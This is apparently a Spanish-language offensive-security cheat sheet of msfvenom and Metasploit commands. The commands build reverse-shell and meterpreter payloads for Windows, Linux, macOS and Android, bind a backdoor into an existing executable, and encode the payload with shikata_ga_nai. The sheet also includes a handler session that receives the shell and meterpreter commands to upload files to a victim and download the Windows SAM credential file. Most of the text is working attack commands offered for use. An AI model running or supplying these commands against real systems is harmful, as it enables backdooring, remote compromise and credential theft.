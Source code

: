 ### Windows Payloads

| Comandos         | Explicacion                                                                 |
| --------         | ------------------------------------------------------------------          |
| msfvenom -l encoders | Lista los encoders disponibles
| msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe |	Enlazar un ejecutable con un backdoor ejecutable EXE
| msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe | Crea una carga útil simple para el protocolo TCP con el codificador shikata_ga_nai
| msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe | Enlazar un ejecutable con un backdoor y lo codifica con shikata_ga_nai |

### Binaries

| Comandos         | Explicacion                                                                 |
| --------         | ------------------------------------------------------------------          |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe |	Creacion de una carga útil simple para Windows usando el protocolo TCP
| msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe	|Creacion de una carga útil simple para Windows usando el protocolo HTTP
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf |	Creacion de una carga útil simple para Linux usando el protocolo TCP
| msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho |	Creacion de una shell simple para MAC usando el protocolo TCP
| msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk |	Creacion de una carga útil simple para Android usando el protocolo TCP |

**Como conseguir una shell con meterpreter!**

{% highlight zsh %}  
╭─[~/Desktop/APOLO/Ethic4l-Hacking/]─[root@Arthorias]─[0]─[4186]
╰─[:)] # msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run
{% endhighlight %}     

**Como usar Meterpreter**  

Luego de comprometer una maquina y tener una shell de meterpreter, hay multiples comandos que nos facilitaran la vida en la hora de interactuar con nuestra maquina victima.  

**Comandos Utiles**
Como subir un archivo a una maquina comprometida con windows
{% highlight markdown %}  
upload file c:\\windows
{% endhighlight %}     

Como descargar un archivo que este alojado en el equipo victima y guardarlo en nuestro equipo.
{% highlight markdown %}  
download c:\\windows\\repair\\sam /tmp
{% endhighlight %}     
